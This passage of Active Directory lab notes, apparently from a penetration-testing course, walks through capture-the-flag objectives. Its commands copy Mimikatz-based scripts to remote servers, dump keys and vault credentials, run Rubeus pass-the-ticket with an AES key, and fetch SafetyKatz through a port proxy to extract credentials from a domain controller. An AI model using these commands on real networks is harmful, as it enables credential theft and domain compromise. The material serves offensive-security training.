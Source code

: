 - On student machine run the following command from a PowerShell session. Note that it will take several minutes for the copy process to complete.
```
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- on dcorp-adminsrv run the script
```
[dcorp-adminsrv]: PS C:\Program Files>**.\Invoke-MimiEx-keys-stdx.ps1
```
- Here we find the credentials of the dcorp-adminsrv$, appadmin and websvc users.

 **Create Invoke-MimiEx-vault-stdx.ps1**
 - Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx-vault-stdx.ps1 (where x is your student ID).
- Open Invoke-MimiEx-vault-stdx.ps1 in PowerShell ISE (Right click on it and click Edit).
- Replace "Invoke-Mimi -Command '"sekurlsa::ekeys"' " that we added earlier with "Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' " (without quotes).
- Copy Invoke-MimiEx-vault-stdx.ps1 to dcorp-adminsrv and run it
```
Copy-Item C:\AD\Tools\Invoke-MimiEx-vault-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

```
[dcorp-adminsrv]: PS C:\Program Files> **.\Invoke-MimiEx-vault-stdx.ps1**
```
- We got credentials for the srvadmin user in clear-text


- according to walkthrough video NTLM for srvadmin should be there but in our case we didin;t found it so after getting cleartext we will convert it to NTLM hash and submit 
### Flag - NTLM hash of websvc extracted from dcorp-adminsrv	
- copy the hash from `.\Invoke-MimiEx-keys-stdx.ps1`
### Flag - NTLM hash of appadmin extracted from dcorp-adminsrv	
- copy the hash from `.\Invoke-MimiEx-keys-stdx.ps1`



---


# Learning Objective - 8
### Flag - NTLM hash of krbtgt
- Run the below command from an elevated command prompt (Run as administrator) to start a process with Domain Admin privileges:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```
